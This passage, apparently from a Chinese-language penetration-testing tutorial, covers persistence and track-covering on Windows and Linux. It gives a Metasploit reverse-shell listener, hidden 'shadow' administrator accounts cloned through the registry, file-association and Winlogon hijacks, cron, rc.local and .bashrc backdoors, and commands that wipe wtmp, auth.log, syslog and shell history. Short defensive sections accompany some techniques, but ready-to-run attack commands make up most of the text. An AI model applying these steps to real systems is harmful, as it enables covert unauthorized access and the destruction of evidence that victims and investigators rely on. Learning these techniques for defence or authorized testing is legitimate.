



###### 监听返回的shell

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.226.131
set lport 8888
exploit
```

过一分钟之后接接收到靶机反弹回来的shell，权限维持成功




##### 防范措施

1. **监控和审计**：定期检查和审计计划任务，尤其是以系统或高权限用户身份运行的任务。可以使用 Task Scheduler 的图形界面或命令行工具查看任务。

   ```cmd
   schtasks /query /fo LIST /v
   ```

2. **权限管理**：限制对 Task Scheduler 的访问权限，确保只有授权用户能够创建或修改计划任务。

3. **使用安全软件**：部署并使用防病毒和反恶意软件工具，检测和阻止可疑的任务创建和修改行为。

4. **事件日志**：启用并监控 Windows 事件日志，特别是 Task Scheduler 的操作日志（Microsoft-Windows-TaskScheduler），以发现可疑活动。


#### 影子用户

影子用户即创建的隐藏用户，它无法通过普通命令进行查询，比较隐蔽。

这里以win10作为演示

先利用命令创建一个隐藏用户,并将其加入本地管理员组。

```
net user test$ 123456 /add
net localgroup administrators test$ /add
```

net user命令无法查看，但是可以在计算机管理和登陆页面中看到

**解决办法**

打开注册表:

```
HKEY_LOCAL_MACHINE\SAM\SAM
```

修改权限:



修改完权限之后，我们重新启动注册表即可继续查看内容。

**查看F值**



导出这三个值




test$导出为1.reg
`000003EC`包含test$用户的F值，导出另存为2.reg
`000003E9`包含WIN10用户的F值，导出另存为3.reg


将2.reg中的F值替换为3.reg中的F值，即将test$用户的F值替换为WIN10用户的F值



删除test$

```
net user test$ /del
```


注册表就已经无法打开了



导入注册表

```
regedit /s 1.reg
regedit /s 2.reg
```

查看效果



但登录界面已经没有账户

3389直接登录,以test$账号登录

但是登陆之后的身份却是原来WIN10用户，桌面也是原用户的，达到克隆效果


#### 文件关联

利用文件关联进行权限维持是一种高级技术，通常用于在系统中保持持久访问权限。此方法涉及更改文件类型的默认打开方式，使得恶意代码在用户或系统执行特定类型的文件时被运行。以下是如何在Windows系统中利用文件关联进行权限维持的步骤和方法：

##### 步骤

1. **创建恶意脚本或程序：**
   - 首先，编写一个脚本或程序，该脚本将在被执行时提供持久访问权限或执行恶意行为。例如，一个简单的批处理脚本可以是：
     ```bat
     @echo off
     net user hacker MyPassword123 /add
     net localgroup administrators hacker /add
     ```

2. **选择一个文件类型：**
   - 选择一个不常用但存在的文件类型。例如，`.txt` 文件。

3. **更改文件关联：**
   - 打开“命令提示符”并使用管理员权限运行。
   - 使用 `assoc` 命令查看当前文件类型关联：
     ```shell
     assoc .txt
     ```
     这将显示 `.txt` 文件当前关联的文件类型，例如：
     ```
     .txt=txtfile
     ```
   - 使用 `ftype` 命令查看该文件类型的当前打开方式：
     ```shell
     ftype txtfile
     ```
     这将显示类似以下内容：
     ```
     txtfile=%SystemRoot%\System32\NOTEPAD.EXE %1
     ```

4. **更改默认打开方式：**
   - 更改 `.txt` 文件的默认打开方式，使其执行你的恶意脚本。例如，将其修改为执行一个恶意的批处理脚本：
     ```shell
     ftype txtfile=C:\path\to\malicious.bat %1
     ```
     例如：
     ```shell
     ftype txtfile=C:\Windows\System32\malicious.bat %1
     ```

##### 恢复默认关联：

为了确保系统能够正常运行且不被检测，你需要一种方式来恢复文件关联。可以通过另一个脚本在执行恶意操作后恢复关联：
```bat
@echo off
rem 执行恶意操作
net user hacker MyPassword123 /add
net localgroup administrators hacker /add

rem 恢复原始关联
ftype txtfile=%SystemRoot%\System32\NOTEPAD.EXE %1
```

##### 监控与检测：

为了防止此类攻击，管理员应：
1. **监控文件关联更改：** 使用安全软件或脚本监控注册表和文件关联设置。
2. **限制权限：** 限制用户更改系统文件类型关联的权限。
3. **定期审计：** 定期检查系统文件类型关联和可疑的文件类型打开方式。


#### Winlogon用户登陆初始化

利用Winlogon用户登录初始化进行权限维持是一种高级技术，通常用于在用户登录时执行特定的恶意操作，从而在系统中保持持久访问权限。Winlogon是Windows登录管理器，负责管理用户登录和退出时的操作。可以通过修改注册表来在用户登录时执行自定义的脚本或程序。以下是如何利用Winlogon用户登录初始化进行权限维持的详细步骤：

##### 步骤：

1. **创建恶意脚本或程序：**
   - 首先，编写一个脚本或程序，该脚本将在用户登录时提供持久访问权限或执行恶意行为。例如，一个简单的批处理脚本可以是：
     ```bat
     @echo off
     net user hacker MyPassword123 /add
     net localgroup administrators hacker /add
     ```

2. **将脚本保存到系统目录：**
   - 将这个脚本保存到一个不会轻易被删除或修改的目录中，例如 `C:\Windows\System32\`。
   - 假设脚本名为 `malicious.bat`

3. **修改注册表：**
   
   - 打开“注册表编辑器”（按 `Win + R`，输入 `regedit`，然后按回车）。
   - 导航到以下路径：
     ```
     HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
     ```
   - 找到 `Userinit` 键。默认值通常为：
     ```
     C:\Windows\system32\userinit.exe,
     ```
   - 将 `Userinit` 键的值修改为你的脚本路径，确保保留原来的 `userinit.exe`，这样系统还能正常工作。例如：
     ```
     C:\Windows\System32\userinit.exe,C:\Windows\System32\malicious.bat
     ```
   
4. **确认修改：**
   - 确认 `Userinit` 键的值已正确修改，可以关闭注册表编辑器。

##### 恢复默认设置：

为了确保系统能够正常运行且不被检测，你需要一种方式来恢复 `Userinit` 键的默认值。可以通过另一个脚本在执行恶意操作后恢复默认设置：
```bat
@echo off
rem 执行恶意操作
net user hacker MyPassword123 /add
net localgroup administrators hacker /add

rem 恢复原始设置
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /t REG_SZ /d "C:\Windows\system32\userinit.exe," /f
```

##### 安全防范：

为了防止此类攻击，管理员应：
1. **监控注册表变化：** 使用安全软件或脚本监控注册表的关键路径，例如 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`。
2. **限制注册表访问权限：** 限制普通用户对关键注册表路径的写入权限。
3. **定期审计：** 定期检查系统关键路径的注册表设置和可疑的启动项。


### Linux权限维持

#### 隐藏踪迹

创建隐藏文件(ls不可见，ls -la可见)：

```bash
vim .shell.php
```

修改时间戳(文件时间)：

```bash
touch -r 老文件 shell.elf

#touch命令详解
-a   或--time=atime或--time=access或--time=use 　只更改存取时间。

-c   或--no-create 　不建立任何文档。

-d 　使用指定的日期时间，而非现在的时间。

-f 　此参数将忽略不予处理，仅负责解决BSD版本touch指令的兼容性问题。

-m   或--time=mtime或--time=modify 　只更改变动时间。

-r 　把指定文档或目录的日期时间，统统设成和参考文档或目录的日期时间相同。

-t 　使用指定的日期时间，而非现在的时间。
```

文件锁定(赋予特殊权限，不允许更改)：

```bash
chattr +i shell.elf

#chattr命令详解
chattr（Change Attribute）命令用于更改文件或目录的属性。常见的文件属性包括不可变属性、追加属性等。

常见选项和用法
+: 添加属性
-: 移除属性
=: 设置属性
常见的文件属性
i: 不可变属性。设置后文件不能被删除、重命名或修改。
a: 追加属性。设置后只能在文件末尾追加内容，不能修改或删除现有内容。
A: 不更新访问时间。
S: 同步更新文件。所有对文件的修改都立即写入磁盘。

#lsattr命令详解
lsattr（List Attributes）命令用于显示文件或目录的属性。它类似于 ls 命令，但专门用于显示文件系统属性。

常见选项和用法
-R: 递归显示目录及其内容的属性。
-d: 显示目录本身的属性，而不是目录内容的属性。
-a: 显示所有文件，包括以 . 开头的隐藏文件
```

无w、who、last等记录ssh：

```bash
ssh -T root@IP
```

清除last记录(登录信息)：

```bash
echo '' > /var/log/wtmp
```

端口复用：将来自IP访问80端口的流量转发到22端口

```bash
iptables -t nat -A PREROUTING -p tcp -s IP --dport 80 -j REDIRECT --to-port 22

iptables:
调用 iptables 工具来管理 Linux 内核的防火墙规则

-t nat:
指定操作的是 nat 表。nat 表用于网络地址转换，主要包括源地址和目标地址转换。

-A PREROUTING:
在 PREROUTING 链中追加一条新规则。PREROUTING 链在数据包进入路由前应用规则，即在数据包被路由到本地或转发到其他网络设备之前处理。

-p tcp:
指定规则适用于 TCP 协议的数据包。

-s IP:
指定源地址。IP 是占位符，实际使用时应替换为实际的源 IP 地址，例如 192.168.1.100。这条规则只适用于来自这个 IP 地址的数据包。

--dport 80:
指定目标端口。这里是 80 端口，即 HTTP 服务端口。规则只适用于目标端口为 80 的数据包。

-j REDIRECT:
指定目标动作（jump to target）。REDIRECT 是一个目标，用于将数据包重定向到本地主机的不同端口。

--to-port 22:
指定重定向的目标端口。这里是端口 22，即 SSH 服务端口。数据包将被重定向到本地主机的 22 端口。


#常用命令
-A 在指定链的末尾添加（append）一条新的规则
-D  删除（delete）指定链中的某一条规则，可以按规则序号和内容删除
-I  在指定链中插入（insert）一条新的规则，默认在第一行添加
-R  修改、替换（replace）指定链中的某一条规则，可以按规则序号和内容替换
-L  列出（list）指定链中所有的规则进行查看
-E  重命名用户定义的链，不改变链本身
-F  清空（flush）
-N  新建（new-chain）一条用户自己定义的规则链
-X  删除指定表中用户自定义的规则链（delete-chain）
-P  设置指定链的默认策略（policy）
-Z 将所有表的所有链的字节和数据包计数器清零
-n  使用数字形式（numeric）显示输出结果
-v  查看规则表详细信息（verbose）的信息
-V  查看版本(version)
-h  获取帮助（help）


表（Tables）
filter: 默认表，包含防火墙规则。
nat: 网络地址转换表，主要用于修改数据包的源地址或目标地址。
mangle: 用于修改数据包的某些字段。
raw: 用于配置数据包追踪相关的规则。

链（Chains）
INPUT: 处理所有进入本地系统的数据包。
OUTPUT: 处理所有从本地系统发出的数据包。
FORWARD: 处理转发的数据包（不是本地生成或目的地为本地）。
PREROUTING: 在数据包到达路由决策之前处理数据包。所有的数据包进来都要先由这个链处理
POSTROUTING: 在数据包离开路由决策之后处理数据包。
```

ssh连接80端口

```bash
ssh -p 80 root@IP
```

历史命令记录隐藏：

```bash
history -c # 删除命令历史
history -d offset # 删除特定序号的命令
rm ~/.bash_history # 删除历史记录文件
> ~/.bash_hsittory # 清空历史记录文件
unset HISFILE # 取消设置HISFILE环境变量，防止当前会话的命令被记录
export HISTSIZE=0
export HISFILESIZE=0 #将 HISTSIZE 和 HISTFILESIZE 设置为 0，阻止任何命令被记录
```

清空日志文件

```bash
# 清除auth日志
> /var/log/auth.log

# 清除syslog日志
> /var/log/syslog
```


#### 利用crontab计划任务

Cron Jobs是Linux系统中用于定时执行任务的功能，通过配置`crontab`文件，用户可以安排脚本或命令在特定时间、日期或间隔周期内自动执行。利用Cron Jobs进行权限维持是一种常见的持久性技术，以下是详细的讲解，包括如何设置Cron Jobs、创建恶意Cron Jobs，以及如何检测和防范这种技术。

#####  Cron Jobs基础知识

cron的结构

`crontab`文件每一行表示一个任务，结构如下：
```
* * * * * command_to_execute
- - - - -
| | | | |
| | | | +---- 日 (0 - 6) (周日为0)
| | | +------ 月 (1 - 12)
| | +-------- 日 (1 - 31)
| +---------- 小时 (0 - 23)
+------------ 分钟 (0 - 59)
```

例如，每天凌晨1点执行一个脚本：
```
0 1 * * * /path/to/script.sh
```


##### 管理cron Jobs

每个用户都有自己的crontab文件，位于`/var/spool/cron/crontabs/`目录下，

- 查看当前用户的cron Jobs：
  ```bash
  crontab -l
  ```
- 编辑当前用户的cron Jobs：
  ```bash
  crontab -e
  ```
- 删除当前用户的cron Jobs：
  ```bash
  crontab -r
  ```


##### 创建和利用Cron Jobs

假设我们有一个恶意脚本 `malicious.sh`，其内容如下：
```bash
#!/bin/bash
# 添加恶意用户并授予管理员权限
useradd -m attacker
echo "attacker:password" | chpasswd
usermod -aG sudo attacker
```
将这个脚本保存到 `/usr/local/bin/malicious.sh`，并赋予执行权限：
```bash
sudo chmod +x /usr/local/bin/malicious.sh
```
然后，编辑cron Jobs文件：

```bash
crontab -e
```
添加以下行，每分钟执行一次恶意脚本：
```bash
* * * * * /usr/local/bin/malicious.sh

```

确保cron服务在系统启动时自动启动，并运行

```bash
sudo systemctl enable cron
sudo systemctl start cron
```


##### 检测和防范Cron Jobs的滥用

###### 检测恶意Cron Jobs

- 定期检查系统所有用户的Cron Jobs：
  ```bash
  for user in $(cut -f1 -d: /etc/passwd); do
    echo "Cron jobs for $user:"
    crontab -u $user -l
  done
  ```
- 检查系统的Cron目录（系统级Cron Jobs）：
  ```bash
  ls -l /etc/cron.*
  ```
- 查看Cron日志（通常位于 `/var/log/cron` 或 `/var/log/syslog`）：
  ```bash
  grep CRON /var/log/syslog
  ```

###### 防范措施

- **限制权限：** 只允许受信任的用户使用Cron Jobs，编辑 `/etc/cron.allow` 和 `/etc/cron.deny` 文件。
- **文件完整性监控：** 使用工具如 AIDE 或 Tripwire 监控 `crontab` 文件和Cron目录的更改。
- **日志审计：** 配置并定期审查Cron相关日志，以检测异常活动。
- **定期审计：** 定期检查所有用户的Cron Jobs，确保没有未经授权的定时任务。


##### 示例：完整的恶意Cron Job配置

1. **创建恶意脚本**
   ```bash
   sudo nano /usr/local/bin/malicious.sh
   ```
   添加以下内容：
   ```bash
   #!/bin/bash
   useradd -m attacker
   echo "attacker:password" | chpasswd
   usermod -aG sudo attacker
   ```
   保存并退出，然后赋予执行权限：
   ```bash
   sudo chmod +x /usr/local/bin/malicious.sh
   ```

2. **配置Cron Job**
   ```bash
   crontab -e
   ```
   添加以下行：
   ```bash
   * * * * * /usr/local/bin/malicious.sh
   ```

3. **检测和防范**
   - **检测：**
     ```bash
     for user in $(cut -f1 -d: /etc/passwd); do
       echo "Cron jobs for $user:"
       crontab -u $user -l
     done
     ```
   - **防范：**
     
     ```bash
     echo "trusteduser" | sudo tee -a /etc/cron.allow
     ```


#### 修改rc.local文件

`rc.local` 文件是一个位于 Linux 系统中的脚本文件，用于在系统启动时执行特定的命令或脚本

```bash
#确保恶意脚本具有执行权限
chmod +x /path/to/malicious/script.sh

# 编辑rc.local文件
sudo nano /etc/rc.local

# 添加恶意命令
/path/to/malicious_script.sh
```


#### 修改用户登陆文件

修改用户的shell配置文件，如 `.bashrc` 或 `.bash_profile`，以在用户登录时执行恶意命令

1. **修改 `.bashrc` 或 `.bash_profile`**

   `.bashrc` 和 `.bash_profile` 是 Bash shell 的启动脚本，通常位于用户的主目录下。这些文件在用户登录时执行，攻击者可以通过修改这些文件来执行恶意代码。

   ```
   bash复制代码# Example: Append malicious command to .bashrc
   echo "/path/to/malicious/script.sh" >> ~/.bashrc
   ```

2. **修改 `/etc/profile` 或 `/etc/profile.d/` 脚本**

   `/etc/profile` 和 `/etc/profile.d/` 目录下的脚本在所有用户登录时执行，修改这些文件可以影响系统中的所有用户。

   ```bash
   # Example: Append malicious command to /etc/profile
   echo "/path/to/malicious/script.sh" >> /etc/profile
   ```


#### 利用ssh授权密钥

将攻击者的公钥添加到目标用户的 `~/.ssh/authorized_keys` 文件中，以便在需要时能够通过SSH无密码登录。


#### 利用LD_PRELOAD劫持

通过 `LD_PRELOAD` 环境变量，攻击者可以在加载动态链接库时插入恶意库，劫持程序的运行


#### 利用systemd服务

在较新的linux系统上，都使用systemd 取代了init，成为系统的第一个进程（PID 等于 1），其他进程都是它的子进程。systemd为系统启动和管理提供了完整的解决方案。它提供了一组命令。字母`d`是守护进程（daemon）的缩写。查看systemd的版本:`systemctl --version`

```bash
systemd可以管理所有系统资源（不同资源统称为Unit），分为12类：

Service unit：系统服务
Target unit：多个 Unit 构成的一个组
Device Unit：硬件设备
Mount Unit：文件系统的挂载点
Automount Unit：自动挂载点
Path Unit：文件或路径
Scope Unit：不是由 systemd 启动的外部进程
Slice Unit：进程组
Snapshot Unit：Systemd 快照，可以切回某个快照
Socket Unit：进程间通信的 socket
Swap Unit：swap 文件
Timer Unit：定时器

------------------------------------------------------------

# 立即启动一个服务
$ sudo systemctl start apache.service

# 立即停止一个服务
$ sudo systemctl stop apache.service

# 重启一个服务
$ sudo systemctl restart apache.service

# 杀死一个服务的所有子进程
$ sudo systemctl kill apache.service

# 重新加载一个服务的配置文件
$ sudo systemctl reload apache.service

# 重载所有修改过的配置文件
$ sudo systemctl daemon-reload

# 显示某个 Unit 的所有底层参数
$ systemctl show httpd.service

# 显示某个 Unit 的指定属性的值
$ systemctl show -p CPUShares httpd.service

# 设置某个 Unit 的指定属性
$ sudo systemctl set-property httpd.service CPUShares=500

# 查看服务状态
$ systemctl status httpd.service

# 查看服务配置文件内容
$ systemctl cat httpd.service

-------------------------------------------------------------------------
 
# 每一个 Unit 都有一个配置文件，告诉 Systemd 怎么启动这个 Unit 。

Systemd 默认从目录/etc/systemd/system/读取配置文件。
但是，里面存放的大部分文件都是符号链接，指向目录/usr/lib/systemd/system/，真正的配置文件存放在那个目录。

# systemctl enable命令用于在上面两个目录之间，建立符号链接关系。
$ sudo systemctl enable clamd@scan.service
# 等同于
$ sudo ln -s '/usr/lib/systemd/system/clamd@scan.service' '/etc/systemd/system/multi-user.target.wants/clamd@scan.service'

--------------------------------------------------------------------

# 配置文件的区块
 
[Unit]
区块通常是配置文件的第一个区块，用来定义 Unit 的元数据，以及配置与其他 Unit 的关系。它的主要字段如下。
Description：简短描述
Documentation：文档地址
Requires：当前 Unit 依赖的其他 Unit，如果它们没有运行，当前 Unit 会启动失败
Wants：与当前 Unit 配合的其他 Unit，如果它们没有运行，当前 Unit 不会启动失败
BindsTo：与Requires类似，它指定的 Unit 如果退出，会导致当前 Unit 停止运行
Before：如果该字段指定的 Unit 也要启动，那么必须在当前 Unit 之后启动
After：如果该字段指定的 Unit 也要启动，那么必须在当前 Unit 之前启动
Conflicts：这里指定的 Unit 不能与当前 Unit 同时运行
Condition...：当前 Unit 运行必须满足的条件，否则不会运行
Assert...：当前 Unit 运行必须满足的条件，否则会报启动失败

[Install]
通常是配置文件的最后一个区块，用来定义如何启动，以及是否开机启动。它的主要字段如下。
WantedBy：它的值是一个或多个 Target，当前 Unit 激活时（enable）符号链接会放入/etc/systemd/system目录下面以 Target 名 + .wants后缀构成的子目录中
RequiredBy：它的值是一个或多个 Target，当前 Unit 激活时，符号链接会放入/etc/systemd/system目录下面以 Target 名 + .required后缀构成的子目录中
Alias：当前 Unit 可用于启动的别名
Also：当前 Unit 激活（enable）时，会被同时激活的其他 Unit

[Service]
区块用来 Service 的配置，只有 Service 类型的 Unit 才有这个区块。它的主要字段如下。
Type：定义启动时的进程行为。它有以下几种值。
	Type=simple：默认值，执行ExecStart指定的命令，启动主进程
